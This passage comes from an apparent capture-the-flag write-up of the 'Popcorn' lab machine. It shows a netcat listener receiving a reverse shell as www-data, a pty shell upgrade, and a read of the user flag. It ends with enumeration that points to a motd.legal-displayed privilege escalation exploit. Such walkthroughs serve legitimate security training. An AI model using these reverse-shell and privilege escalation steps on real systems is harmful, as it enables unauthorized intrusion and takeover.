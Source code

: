     root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.6.
    Ncat: Connection from 10.10.10.6:33054.
    bash: no job control in this shell
    www-data@popcorn:/var/www/torrent/upload$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll upgrade the shell:

    
    
    www-data@popcorn:/var/www/torrent/upload$ python -c 'import pty;pty.spawn("bash")'
    www-data@popcorn:/var/www/torrent/upload$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# fg
                                                           reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@popcorn:/var/www/torrent/upload$
    

And this user can actually grab `user.txt`:

    
    
    www-data@popcorn:/home/george$ cat user.txt 
    5e36a919************************
    

## Priv: www-data –> root

### Enumeration

Looking around the only home directory, `/home/george`, I’ll notice the file
`.cache/motd.legal-displayed`:

    
    
    www-data@popcorn:/home/george$ find . -type f -ls
        76    4 -rw-r--r--   1 george   george        220 Mar 17  2017 ./.bash_logout
        82    4 -rw-r--r--   1 george   george       3180 Mar 17  2017 ./.bashrc
     42885  832 -rw-r--r--   1 george   george     848727 Mar 17  2017 ./torrenthoster.zip
     42883    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.cache/motd.legal-displayed
     42884    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.sudo_as_admin_successful
      2210    4 -rw-r--r--   1 george   george         33 Mar 17  2017 ./user.txt
     43648    4 -rw-------   1 root     root           19 May  5  2017 ./.nano_history
     44232    4 -rw-------   1 root     root         1571 Mar 17  2017 ./.mysql_history
       499    4 -rw-------   1 root     root         2769 May  5  2017 ./.bash_history
       107    4 -rw-r--r--   1 george   george        675 Mar 17  2017 ./.profile
    

`motd.legal-displayed`. It’s currently empty, but it caught my interest
because these kinds of files can lead to code execution because they are
typically executed when a new session starts. Googling for “motd.legal-
displayed privesc” returned an [Exploit-DB exploit](https://www.exploit-
db.com/exploits/14339).
